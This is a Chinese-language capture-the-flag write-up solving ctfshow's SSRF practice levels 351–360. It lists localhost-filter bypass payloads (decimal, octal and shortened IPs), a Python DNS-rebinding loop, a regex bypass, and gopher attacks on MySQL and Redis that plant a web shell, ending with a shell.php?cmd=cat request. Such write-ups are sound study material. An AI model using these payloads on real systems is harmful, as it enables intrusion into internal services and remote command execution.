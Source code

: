 ```yaml
---
title: ctfshow web入门 SSRF WP
tags: 
- SSRF
date: 2021-1-15 13:06:00
categories:
- CTF
- 安全
- CTFSHOW
---
```




## web351

直接访问flag.php

![1610676416204](1610676416204.png)

POST传参

![1610676454610](1610676454610.png)

## 352 353

限制了HTTP协议,ban掉了localhost和127.0.0.1

payload: 

```
url=http://127.1/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php
url=http://spoofed.burpcollaborator.net/flag.php
url=http://127.127.127.127/flag.php
url=http://0177.0.0.1/flag.php
url=http://2130706433/flag.php
```

> 参考这篇公众号里面的方法: https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247488685&idx=1&sn=5e1358879423a2402ae9316c1b454a79&chksm=fa686ddccd1fe4ca81b4f5b6f5b08d38a1a9900dbca18b3b8fe7a9c69dc41ff6a671dc09b572&mpshare=1&srcid=0724B38ETzODsggAeJQq0NUh&sharer_sharetime=1603804699721&sharer_shareid=23084298e2b2fbf6c63c28aed6685355&scene=1&subscene=10000&clicktime=1603805422&enterid=1603805422&ascene=1&devicetype=android-29&version=27001353&nettype=WIFI&abtest_cookie=AAACAA%3D%3D&lang=zh_CN&exportkey=AYbhwft%2Bvac8rXbFPobPN2M%3D&pass_ticket=X55y4G263ILSYM3Pr0eJPlXY%2BGJ1i0vomPMJs5wLB7fXK4bPafvwcmZ79w%2BzXEAZ&wx_header=1
>
> 还有la师傅博客 https://lazzzaro.github.io/2020/09/03/web-

## 353

`url=http://2130706433/flag.php`

## 354

`url=http://spoofed.burpcollaborator.net/flag.php`

## 355 356

`url=http://0/flag.php`

利用的trick是去0地址

```
去0地址
http://0/
http://127.1
http://127.0.1
```

## 357

用var_filter做了严格的限制

```php
filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)
```

看到网上用dns rebind绕过的思路

具体方法参考y1ng师傅的blog https://www.gem-love.com/websecurity/2733.html

> 但是不知道为什么一直不成功

看了下yu22x师傅的博客,302跳转和dns rebind都可以

1. 302跳转 

   依旧失败,猜测这两次是用python搭建HTTP服务才失败的

2. dns rebind

注册 http://ceye.io/profile

填写以下信息

![1610684163757](1610684163757.png)

然后POST`url=http://r.mtvhjl.ceye.io/flag.php`多试几次就成功了

也可以用y1ng师傅的脚本

```python
import requests as req
s = req.session()
url = "http://1ac5ed8f-5525-4fb4-983e-e5e73f4fb345.chall.ctf.show/"
data = {
    "url": "http://r.xxxxxxx.ceye.io/flag.php"
}
while True:
    try:
        text = s.post(url=url, data=data, timeout=5).text
        print(text)
        if "flag{" in text:
            exit(0)
    except Exception as e:
        print(e)
```

## 358

```php
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

绕过正则: `url=http://ctf.@127.0.0.1/flag.php?show`

## 359

可以用gopher打MySQL

直接用工具生成payload (sql语句记得加`;`) , 地址 https://github.com/tarunkant/Gopherus

![1610686730851](1610686730851.png)

再在check.php POSTreurl=xxx,`_`后面的字符要再进行一次url编码

然后shell.php

![1610686860473](1610686860473.png)

## 360

打redis

![1610686930419](1610686930419.png)

POST提交后,访问`http://0d47ce0e-1906-401e-8f5a-47562108f93f.chall.ctf.show/shell.php?cmd=cat /flaaag`